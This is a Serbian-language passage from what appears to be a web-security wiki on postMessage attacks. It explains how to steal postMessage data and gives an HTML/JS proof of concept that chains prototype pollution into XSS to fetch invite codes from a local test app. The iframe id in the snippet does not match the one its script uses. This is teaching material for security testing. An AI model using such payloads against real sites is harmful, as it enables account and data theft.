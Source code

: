 Na sledećoj stranici možete videti kako možete ukrasti **osetljive podatke poslate putem postmessage** do deteta u iframe-u **blokiranjem** glavne stranice pre slanja podataka i zloupotrebom **XSS-a u detetu** da bi **procurili podaci** pre nego što budu primljeni:

{% content-ref url="blocking-main-page-to-steal-postmessage.md" %}
[blocking-main-page-to-steal-postmessage.md](blocking-main-page-to-steal-postmessage.md)
{% endcontent-ref %}

### Krađa poruke modifikovanjem lokacije iframe-a

Ako možete da uključite veb stranicu u iframe bez X-Frame-Header-a koja sadrži drugi iframe, možete **promeniti lokaciju tog detetovog iframe-a**, tako da ako prima **postmessage** poslat koristeći **zvezdicu**, napadač može **promeniti** poreklo tog iframe-a na stranicu **kojom on upravlja** i **ukrasti** poruku:

{% content-ref url="steal-postmessage-modifying-iframe-location.md" %}
[steal-postmessage-modifying-iframe-location.md](steal-postmessage-modifying-iframe-location.md)
{% endcontent-ref %}

### postMessage do Prototype Pollution i/ili XSS

U scenarijima gde se podaci poslati putem `postMessage` izvršavaju pomoću JS-a, možete **ubaciti** stranicu u **iframe** i **iskoristiti** **prototype pollution/XSS** slanjem eksploatacije putem `postMessage`.

Par **veoma dobro objašnjenih XSS-a putem `postMessage`** može se naći na [https://jlajara.gitlab.io/web/2020/07/17/Dom\_XSS\_PostMessage\_2.html](https://jlajara.gitlab.io/web/2020/07/17/Dom\_XSS\_PostMessage\_2.html)

Primer eksploatacije za zloupotrebu **Prototype Pollution, a zatim XSS-a** putem `postMessage` do `iframe-a`:

```html
<html>
<body>
<iframe id="idframe" src="http://127.0.0.1:21501/snippets/demo-3/embed"></iframe>
<script>
function get_code() {
document.getElementById('iframe_victim').contentWindow.postMessage('{"__proto__":{"editedbymod":{"username":"<img src=x onerror=\\\"fetch(\'http://127.0.0.1:21501/api/invitecodes\', {credentials: \'same-origin\'}).then(response => response.json()).then(data => {alert(data[\'result\'][0][\'code\']);})\\\" />"}}}','*');
document.getElementById('iframe_victim').contentWindow.postMessage(JSON.stringify("refresh"), '*');
}

setTimeout(get_code, 2000);
</script>
</body>
</html>
```

Za **više informacija**:

* Link do stranice o [**zagađenju prototipa**](../deserialization/nodejs-proto-prototype-pollution/)
* Link do stranice o [**XSS**](../xss-cross-site-scripting/)
* Link do stranice o [**zagađenju prototipa na klijentskoj strani do XSS-a**](../deserialization/nodejs-proto-prototype-pollution/#client-side-prototype-pollution-to-xss)
